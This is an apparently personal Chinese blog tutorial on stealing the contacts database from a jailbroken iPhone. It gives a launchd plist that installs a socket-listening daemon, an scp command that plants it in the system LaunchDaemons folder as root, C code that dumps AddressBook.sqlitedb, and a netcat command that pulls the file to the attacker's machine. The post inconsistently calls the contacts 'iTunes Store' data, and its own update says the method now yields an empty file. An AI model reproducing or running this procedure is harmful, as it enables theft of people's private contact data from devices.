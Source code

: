 title: iOS攻防——（二）如何窃取用户的通讯录信息
date: 2016-07-12 21:31:24
tags:

  - iOS
  - iOS攻防
categories:
  - iOS
  - iOS攻防
---

# 说明
2016年7月15更新，最近试了一下，发现用nc拿不到数据了，拿数据的代码是没有问题的，直接运行可以拿到数据，但是从mac通过IP和端口拿到的.sqlitedb文件是空文件，博主也正在看为什么~大家有兴趣可以一起找一下原因。

# 简介
本文章基于念茜的iOS攻防系列。
本文将会讲解如何窃取用户的通讯录信息。
同样在越狱手机环境下。

# hack
## 1. 需要一个plist
需要这样一个plist，它看起来是这样：

![](https://raw.githubusercontent.com/summertian4/Images/master/blog/blog_iOS%E6%94%BB%E9%98%B2%E2%80%94%E2%80%94%EF%BC%88%E4%BA%8C%EF%BC%89%E5%A6%82%E4%BD%95%E7%AA%83%E5%8F%96%E7%94%A8%E6%88%B7%E7%9A%84iTunesstore%E4%BF%A1%E6%81%AF-01.png)

<!--more-->

源文件是这样：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>Program</key>
	<string>/usr/bin/hack</string>
	<key>StandardErrorPath</key>
	<string>/dev/null</string>
	<key>SessionCreate</key>
	<true/>
	<key>ProgramArguments</key>
	<array>
		<string>/usr/bin/hack</string>
	</array>
	<key>inetdCompatibility</key>
	<dict>
		<key>Wait</key>
		<false/>
	</dict>
	<key>Sockets</key>
	<dict>
		<key>Listeners</key>
		<dict>
			<key>SockServiceName</key>
			<string>55</string>
		</dict>
	</dict>
</dict>
</plist>

```

SockServiceName指的是通信名称
将plist文件传送到至iPhone/System/Library/LaunchDaemons/ 下 

```
scp /Users/zhoulingyu/Desktop/hack.plist root@192.168.31.152:/System/Library/LaunchDaemons/hack.plist
```



## 2. 了解一下OS X的启动原理

> 1. mac固件激活，初始化硬件，加载BootX引导器。
> 2. BootX加载内核与内核扩展(kext)。
> 3. 内核启动launchd进程。
> 4. launchd根据/System/Library/LaunchAgents、/System/Library/LaunchDaemons、/Library/LaunchDaemons、Library/LaunchAgents、~/Library/LaunchAgents里的plist配置，启动服务守护进程

解释一下：
> LaunchDaemons是用户未登陆前就启动的服务（守护进程）
> LaunchAgents是用户登陆后启动的服务（守护进程）

几个目录下plist文件格式及每个字段的含义：

| Key | Description | Required
| :-------------: | :------------- | :-----: |
| Label | The name of the job | yes |
| ProgramArguments | Strings to pass to the program when it is executed | yes |
| UserName | The job will be run as the given user, who may not necessarily be the one who submitted it to launchd. | no |
| inetdCompatibility | Indicates that the daemon expects to be run as if it were launched by inetd | no |
| Program | The path to your executable. This key can save the ProgramArguments key for flags and arguments. | no |
| onDemand | A boolean flag that defines if a job runs continuously or not | no |
| RootDirectory | The job will be?chrooted?into another directory | no |
| ServiceIPC | Whether the daemon can speak IPC to launchd | no |
| WatchPaths | Allows launchd to start a job based on modifications at a file-system path | no |
| QueueDirectories | Similar to WatchPath, a queue will only watch an empty directory for new files | no |
| StartInterval | Used to schedule a job that runs on a repeating schedule. Specified as the number of seconds to wait between runs. | no |
| StartCalendarInterval | Job scheduling. The syntax is similar to cron. | no |
| HardResourceLimits | Controls restriction of the resources consumed by any job | no |
| LowPriorityIO | Tells the kernel that this task is of a low priority when doing file system I/O | no |
| Sockets | An array can be used to specify what socket the daemon will listen on for launch on demand | no |

iOS基本类似，我基本是参照这个来的。

所以上面的plist实际上是要求系统启动一个进程。
一个名为`hack`的进程，可执行文件的路径是/usr/bin/hack。

## 3. 编写读取通讯录数据程序
iTunes Store的数据都在`/var/mobile/Library/AddressBook/AddressBook.sqlitedb`中，只要能能拿出AddressBook.sqlitedb就可以非法拿到用户的数据。


那么现在编写一个程序：

```c
#include <stdio.h>   
#include <fcntl.h>   
#include <stdlib.h>   
   
#define FILE "/var/mobile/Library/AddressBook/AddressBook.sqlitedb"   
   
int main(){   
    int fd = open(FILE, O_RDONLY);   
    char buf[128];   
    int ret = 0;   
       
    if(fd < 0)   
        return -1;   
    while (( ret = read(fd, buf, sizeof(buf))) > 0){   
        write( fileno(stdout), buf, ret);   
    }   
    close(fd);   
    return 0;   
}  
```

用同样的方法编译、传输：

```
xcrun -sdk iphoneos clang -arch armv7 -o hack hack.c
```

签名：

```
ldid -S hack
mv hack /usr/bin
```

## 4. 抓取 iTunesstore 数据信息
利用netcat，指定之前定义的服务名称，抓取设备 iTunesstore 信息：

```
nc 192.168.31.152 55 > itunesstored2.sqlitedb
```

OK，在MAC查看一下内容。

----

有什么问题都可以在博文后面留言，或者微博上私信我。

博主是 iOS 妹子一枚。

希望大家一起进步。

我的微博：[Lotty周小鱼](http://weibo.com/coderfish/)


